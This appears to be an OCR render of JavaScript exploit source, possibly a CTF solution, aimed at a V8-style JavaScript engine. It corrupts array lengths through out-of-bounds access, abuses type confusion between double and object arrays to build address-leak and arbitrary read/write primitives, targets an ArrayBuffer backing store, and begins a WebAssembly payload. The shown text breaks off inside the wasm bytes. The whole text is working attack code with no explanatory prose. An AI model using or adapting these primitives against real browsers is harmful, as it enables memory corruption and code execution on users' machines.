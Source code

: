 ```javascript

let helper = new Helpers();

let victim = [1.1];
victim.push(1.1, 2.2, 3.3, 4.4, 5.5, 6.6, 7.7, 8.8, 9.9, 10.1, 11.11, 12.12);
console.log(victim.length);

let evil = new Array(1).fill(4.3);
let evil_elem_addr = helper.ftoil(victim[0x24]);
let double_map = helper.ftoil(victim[0x23]);
let double_proto = helper.ftoih(victim[0x23]);
victim[0x24] = helper.i64tof64((0x1000n << 32n) | BigInt(evil_elem_addr));
console.log(evil.length);

let obj_arr = [{}];
let obj_arr_map = helper.ftoil(evil[0x12]);
let obj_arr_proto = helper.ftoih(evil[0x12]);
// %DebugPrint(obj_arr);

function get_addr(x) {
  obj_arr[0] = x;
  evil[0x12] = helper.i64tof64(
    (BigInt(double_proto) << 32n) | BigInt(double_map),
  );
  let res = helper.ftoil(obj_arr[0]) - 1;
  evil[0x12] = helper.i64tof64(
    (BigInt(obj_arr_proto) << 32n) | BigInt(obj_arr_map),
  );
  return res;
}

function limited_read(x) {
  evil[0x12] = helper.i64tof64(
    (BigInt(double_proto) << 32n) | BigInt(double_map),
  );
  evil[0x13] = helper.i64tof64((2n << 32n) | (BigInt(x) - 8n) | 1n);
  let res = helper.f64toi64(obj_arr[0]);
  evil[0x12] = helper.i64tof64(
    (BigInt(obj_arr_proto) << 32n) | BigInt(obj_arr_map),
  );
  return res;
}

function limited_write(x, data) {
  evil[0x12] = helper.i64tof64(
    (BigInt(double_proto) << 32n) | BigInt(double_map),
  );
  evil[0x13] = helper.i64tof64((2n << 32n) | (BigInt(x) - 8n) | 1n);
  obj_arr[0] = helper.i64tof64(data);
  evil[0x12] = helper.i64tof64(
    (BigInt(obj_arr_proto) << 32n) | BigInt(obj_arr_map),
  );
}

let ab = new ArrayBuffer(0x1337);
let ab_helper = new DataView(ab);
let buf_backing_store_addr = get_addr(ab) + 0x14;
helper.printhex(buf_backing_store_addr);
// %DebugPrint(ab);

let exp = () => {
  let wasm_code = new Uint8Array([
    0, 97, 115, 109, 1, 0, 0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3,
```